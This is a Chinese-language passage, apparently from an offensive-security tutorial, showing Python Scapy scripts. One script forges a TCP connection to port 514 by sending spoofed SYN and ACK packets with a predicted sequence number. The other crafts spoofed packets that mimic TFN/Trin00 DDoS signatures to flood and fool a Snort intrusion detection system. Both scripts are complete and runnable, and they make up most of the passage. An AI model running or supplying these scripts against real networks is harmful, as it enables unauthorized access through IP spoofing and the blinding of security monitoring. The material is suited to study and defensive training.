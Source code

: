 ```python
```

### 伪造 TCP 连接

在 Python 中重现这一行为，将创建和发送两个数据包。首先，创建一个 TCP 源端口为 513，目标端口为 514，源 IP 地址为被假冒的服务器，目标 IP 地址为被攻击计算机的 SYN 包。接着，创建一个相同的 ACK 包，并把计算得到的序列号填入相应的字段中，最后把它发送出去

```python
from scapy.all import *

def spoof_conn(src, target, ack):
    ip_layer = IP(src=src, dst=target)
    tcp_layer = TCP(sport=513, dport=514)
    syn_pkt = ip_layer / tcp_layer
    send(syn_pkt)
    ip_layer = IP(src=src, dst=target)
    tcp_layer = TCP(sport=513, dport=514, ack=ack)
    ack_pkt = ip_layer / tcp_layer
    send(ack_pkt)

src = "10.1.1.2"
target = "192.168.1.106"
seq_num = 2024371201
spoof_conn(src, target, seq_num)
```

## 使用 Scapy 愚弄入侵检测系统

入侵检测系统（Intrusion DetectionSystem，IDS），基于网络的入侵检测系统（network-based intrusion detection system，NIDS）可以通过记录流经 IP 网络的数据包实时地分析流量。用已知的恶意特征码对数据包进行扫描，IDS 可以在攻击成功之前就向网络分析师发出警报。SNORT 这个 IDS 系统自带的许多不同规则，就使它能够识别出许多包括不同类型的踩点，漏洞利用已经拒绝服务攻击在内的真实环境中的攻击手段。检查其中一些规则配置文件中的内容，可以看到针对 TFN、tfn2k 和 Trin00 分布式拒绝服务攻击工具包的四个警报触发规则。

```shell
cat /etc/snort/rules/ddos.rules
```

第一条警报触发规则——DDoS TFN 探针（DDoS TFN Probe）

```python
from scapy.all import *
def ddos_test(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / ICMP(type=8,id=678) / Raw(load="1234")
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / ICMP(type=0) / Raw(load="AAAAAAAAA")
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / UDP(dport=31335) / Raw(load="PONG")
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / ICMP(type=0, id=456)
    send(pkt, iface=iface, count=count)
    
src = "1.3.3.7"
dst = "192.168.1.106"
iface = "eth0"
count = 1
ddos_test(src, dst, iface, count)
```
